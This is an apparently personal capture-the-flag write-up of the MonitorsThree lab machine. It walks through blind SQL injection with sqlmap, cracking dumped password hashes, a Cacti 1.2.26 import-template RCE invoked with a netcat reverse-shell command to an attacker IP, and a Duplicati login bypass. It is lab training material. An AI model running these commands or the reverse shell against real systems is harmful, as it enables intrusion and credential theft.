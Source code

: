 ```yaml
---
layout: post
title: "MonitorsThree"
date: 2024-10-04 10:04:00 +0000
categories: Writeup
---
```

MonitorsThree Writeup by <span style="color:yellow">jest</span>.

# Scan

```
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

&nbsp;

# SQL Injection

There is SQL injection on the forgot password page on the monitorsthree site.:

![image](https://github.com/user-attachments/assets/a4fae5cc-f532-49bb-8228-d0d3068cd8f1)

Verified with the input '.

It looks to be blind.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![image](https://github.com/user-attachments/assets/406a8e21-219c-4911-a3a6-319dfd25b8ea)


This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8
```

We can try cracking the admin@monitorsthree credential:
```sh
hashcat -m 0 -a 0 31a181c8372e3afc59dab863430610e8 /usr/share/wordlists/rockyou.txt
```
This will provide a password.

&nbsp;

# Cacti

I found a cacti subdomain:

![image](https://github.com/user-attachments/assets/027392ce-169d-4c77-88b8-8cf7f41c7102)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![image](https://github.com/user-attachments/assets/380380ca-0ca6-44a3-8da8-23b43181b2a3)


Cacti 1.2.26 suffers from rce via import template.

Cacti doesn't validate file names given through the package import feature, allowing it to write files onto the system or overwrite existing fils(even outside the cacti base path, as path traversal isn't filtered).

More can be found <a href="https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88">here.</a>

I used an automated attack found <a href="https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26">here.</a>

```python
my-venv/bin/python3 CVE-2024-25641.py \
    --user admin \
    --pass greencacti2001 \
    --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 666 >/tmp/f" \
    http://cacti.monitorsthree.htb/cacti/
```
After setting up a listener, this provides access to www-data on the machine.

Since cacti is in use, I enumerated that the credentials for the sql database were just the default cactiuser:cactiuser, so I could login and list the user hashes:

![image](https://github.com/user-attachments/assets/11e6e028-bacf-4c58-821e-94eb4945e8e2)

After cracking using hashcat, I can login as marcus via su:

![image](https://github.com/user-attachments/assets/91bc6910-641f-4d47-a441-ff2061cc073e)

&nbsp;

# Privilege Escalation

With a shell as marcus, I have to enumerate what this user can actually do.

I added my public key to the authorized key file and accessed the machine, whilst port forwarding 8200 on the box to port 8200 on my local machine.

I believe the path to root is related to duplicati backups, meaning we must crack the duplicati web ui shown on 8200 so we can access them.

There is a login bypass method <a href="https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee">here.</a>

We need to find and move sqlite files on the box to our machine so we can access the contents using sqlite browser, which we can then use to obtain the server passphrase.

![image](https://github.com/user-attachments/assets/5c0d0787-e45a-49b1-b7aa-6831c5e665c)

We can see that the above matches when attempting to login then examining our burpsuite history:

![image](https://github.com/user-attachments/assets/e0c87262-9259-43e1-b21d-3c1e32a805ae)

Now we know it matches due to the salt being the same, we need the passhprase to generate a valid login password, using the nonce provided by the server:

![image](https://github.com/user-attachments/assets/64646c82-5967-43a4-9780-dfd3e42f8dbd)

The first string shown above is the session_nonce given whenever a session is established, whilst the second is the passphrase from the sqlite database decoded from base64 then converted to hex, resulting in our password below. This is code duplicati uses to generate the noncedpwd, so we can use it to get our own valid credential with the knowledge from sqlite.

We can change the burpsuite password parameter in that session to the one we just generated and gain access to duplicati:

![image](https://github.com/user-attachments/assets/e46e6f8b-2417-4653-a6b0-0195665a12e1)





